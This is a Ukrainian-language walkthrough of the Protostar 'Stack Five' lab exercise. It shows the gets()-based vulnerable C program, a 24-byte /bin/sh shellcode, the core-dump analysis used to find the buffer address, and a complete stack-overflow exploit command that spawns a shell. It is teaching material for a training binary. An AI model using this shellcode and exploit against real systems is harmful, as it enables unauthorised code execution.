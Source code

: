 ## [Stack Five](http://exploit.education/protostar/stack-five/)

Stack5 — це стандартне переповнення буфера, цього разу включаючи шелл-код.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

У цій вправі ми нарешті переходимо до виконання довільного коду замість того, щоб покладатися на код, який уже є в самій програмі.
Для цього можна використати вразливість переповнення, щоб помістити шелл-код у стек і вказати EIP туди, куди ми помістимо код.
Ми можемо приступити до написання та компіляції власного шелл-коду, але для такої простої ситуації, як ця, можна просто взяти шелл-код на один рядок з Інтернету:  
```
24 bytes
shellcode = (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
)
```  

На відміну від попереднього прикладу, ми будемо використовувати дампи ядра для аналізу замість прямого налагодження, 
щоб зафіксувати стан пам'яті програми точно так, як він виглядає під час нормального виконання (програма ```gdb``` трохи змінює стек, тому дійсна адреса може трохи відрізнятися від отриманої):  
```
ulimit -c unlimited
python -c "print('B' * 76 + 'AAAA')" | ./stack5
``` 

Наведені вище команди вмикають дамп ядра та генерують його, запускаючи переповнення в ./stack5. Давайте завантажимо згенерований дамп ядра і знайдемо буфер:  
```
gdb ./stack5 /tmp/core.11.stack5.1494 -q
x/24x $esp-96
```

![Core Dump](img/core_dump.png)  

Як видно на рисунку, програма вже намагалася виконати адресу ```0x41414141``` ('AAAA'), тому зміщення правильні. 
Буфер користувача починається з ```0xbffffcb0```. Отже, маємо:  
```(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (76 - 24) + '\xbf\xff\xfc\xb0'[::-1])"; cat) | ./stack5```

![Shell Test](img/shell_test.png)  